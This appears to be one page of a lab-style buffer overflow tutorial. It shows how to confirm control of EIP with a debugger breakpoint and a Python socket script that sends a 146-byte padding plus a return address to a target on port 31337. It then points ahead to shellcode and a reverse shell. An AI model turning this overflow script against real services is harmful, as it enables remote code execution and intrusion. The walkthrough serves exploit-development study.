


This step is to confirm that the base address that we found via Mona can get us to EIP. Let's restart the debugger and set a break point by entering the first base address:



After that hit F2 to set the break point. When the program crashes, it won't go further than this address. Let's run our Python script:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "\xc3\x14\x04\x08" 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
After running our ownEIP Python script, we can see that the program crashes at 080414C3 so we own EIP:



Now, we can move onto the last stage, generating a shellcode and getting a reverse shell back on our Kali machine.

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
